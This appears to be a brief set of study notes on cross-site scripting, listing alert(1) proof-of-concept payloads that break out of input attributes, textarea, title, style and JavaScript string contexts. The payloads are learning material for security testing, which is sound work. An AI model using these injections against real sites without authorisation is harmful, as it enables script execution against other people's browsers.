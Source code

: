 ____

# Basic XSS

```html
<script>alert("1")</script>
```

![[Pasted image 20241120124025.png]]

# Escaping Context

## Input

```html
<input value="test">
```

```html
"><script>alert(1)</script>
```

![[Pasted image 20241120125055.png]]

```html
" onmouseover=alert(1);//
```

![[Pasted image 20241120125551.png]]

## Textarea

```html
<textarea>test</textarea>
```

```html
</textarea><script>alert(1)</script>
```

![[Pasted image 20241120131231.png]]

## Title

```html
<title>Welcome, test</title>
```

```html
</title><script>alert(1)</script>
```

## Style

```html
<style>
        body {
            background-color: test;
        }
    </style>
```

```html
</style><script>alert(1)</script>
```

## Javascript variables

```html
<script>
var name = 'test'; $('span#name').html( name );
</script>
```

```html
test';alert(1)//
```
![[Pasted image 20241120133508.png]]
